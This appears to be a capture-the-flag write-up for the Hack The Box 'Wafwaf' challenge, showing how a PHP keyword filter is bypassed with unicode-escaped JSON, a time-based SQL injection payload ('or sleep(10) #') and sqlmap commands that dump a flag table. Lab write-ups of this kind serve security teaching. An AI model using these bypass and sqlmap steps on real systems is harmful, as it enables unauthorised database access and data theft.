# bugbase_task2
## Wafwaf hackthebox




<p>&nbsp;</p>  


On entering the ip in the browser.


<p>&nbsp;</p>

it looks somewhat a php code

there is a sql database and the input of POST requests are filtered using the function *waf*.



- The script ends abruptly after a symbol is found


***[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having***


lets try sqli


# SQLi

Checking what happens when we make a request with one of the words that are filtered by the waf:

**curl http://46.101.23.188:32080/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}**


the script seems to accept **json** code;
and after getting json code  we can simply convert it into utf-16


lets burp we need to enter the localhoast address after -x


**curl http://46.101.23.188:32080/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080**



Once the request is captured, we will send it to the repeater




after this we will overcome this  using payload **or sleep(10) #** will be encoded to utf-16 from json decode.

(https://www.branah.com/unicode-converter)




load the payload.




now enter the POST code into a .txt and rwplace the payload placeholder with ```bash * ```



# time based SQL Injection

execuing time based sqli using  ```sqlmap``` to retrieve database.

**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**




We can see here we have five databases db_m8452, info_schema, mysql, performance_schema, sys.
lets retrive tables from db_m8452:


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**




db_m8452  has two tables, *definitely_not_a_flag* and *notes*. lets dump  *definitely_not_a_flag* (--dump).


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**

after applying the time based sql inject. and many payloads later we got the flag




